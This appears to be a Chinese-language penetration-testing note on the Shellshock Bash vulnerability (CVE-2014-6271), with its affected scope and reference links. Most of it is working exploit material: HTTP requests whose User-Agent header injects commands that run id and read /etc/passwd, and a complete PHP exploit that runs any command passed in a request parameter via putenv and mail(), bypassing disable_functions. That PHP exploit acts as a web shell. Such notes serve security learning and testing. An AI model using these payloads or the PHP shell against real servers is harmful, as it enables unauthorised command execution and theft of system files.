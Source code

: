 ## 破壳漏洞
![](/images/破壳漏洞影响范围.png)
GNU Bash <= 4.3，此漏洞可能会影响到使用ForceCommand功能的OpenSSH sshd、使用mod_cgi或mod_cgid的Apache服务器、DHCP客户端、其他使用Bash作为解释器的应用等。

[web服务器和CGI的关系](https://blog.csdn.net/kobejayandy/article/details/11906505)
参考：
- https://www.cnblogs.com/qmfsun/p/7591757.html
- https://github.com/vulhub/vulhub/tree/master/bash/shellshock


![](491580-20170926162151276-378081397.png)
poc
```http
GET /victim.cgi HTTP/1.1
Host: 127.0.0.1:1235
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```
```
User-Agent: () { :;};a=`/bin/cat /etc/passwd`;echo "a: $a"
User-Agent: () { :;}; echo `/bin/cat /etc/passwd`
```


## php mail相关函数可利用此漏洞
poc
```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

imap_mail函数同样也可以